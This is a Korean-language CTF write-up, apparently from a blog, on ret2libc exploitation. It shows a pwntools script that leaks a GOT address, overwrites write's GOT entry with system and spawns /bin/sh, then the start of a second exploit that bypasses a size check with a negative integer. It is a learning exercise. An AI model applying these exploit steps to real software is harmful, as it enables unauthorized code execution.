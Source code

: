 ```c
ex += p32(write_plt)
ex += b'aaaa'
ex += p32(bss)
  
p.send(ex)
  
read =  u32(p.recv()[-4:])
  
system = read - read_system_off
  
 
p.send(b'/bin/sh')
  
time.sleep(1)
p.send(p32(system))
p.interactive()
```

우선 write함수로 read의 got를 참조 즉 read의 실제 주소를 알아낸다. 그리고 read함수로 bss를 참조해 bss에 /bin/sh를 입력한다. 그리고 다시 read함수로 write의 got를 참조한다. 그리고 그 입력값으로 system함수의 주소를 넣는다. 아까 read함수의 실제 주소를 알아냈으니 이미 구해둔 read와 system의 offset으로 system의 주소를 알아낼수 있다. 그러면 결국 wrtie함수의 got에 system함수가 들어갔으니 write함수를 사용하고 인자값으로 bss를 넣어준다. 그러면 system함수에 인자값으로 /bin/sh 가 들어가니 결과적으로 system(”/bin/sh”)가 실행되게 되고 셸을 딸 수 있다.
![](https://i.imgur.com/8Z2Q67j.png)



### 예제_chall
checksec
![](https://i.imgur.com/L0NO0xR.png)

코드
![](https://i.imgur.com/0x3wrfH.png)

우선 100보다 작은 수를 입력받고 입력받은 값 -1 이 read 입력값의 크기가 된다. 그런데 여기서 %d로 음수검증이 없어 음수 최솟값을 입력한다.
그러면 read는 크기 제한이 없어져서 ropasaurusrex처럼 익스플로잇하면 된다. 가젯은 gift함수에 있고 여기서는 write가 없으니 puts함수를 사용하자.
```python
from pwn import *
  
context.log_level= 'debug'
  
e= ELF("./challenge")
p = process("./challenge")
  
 
pause()
  
p.sendlineafter(b"score.", str(-2147483648))
  
  
read_plt = e.plt['read']
read_got = e.got['read']
printf_plt = e.plt['puts']
printf_got = e.got['puts']
read_system_off = 0xc3c20 # read가 더 큼
  
pop_rdx_rsi_rdi = 0x401235
pop_rdi = 0x401237
  
bss = 0x404070
  
ex = b'a'*0x70
ex += b'b'*0x8
  
```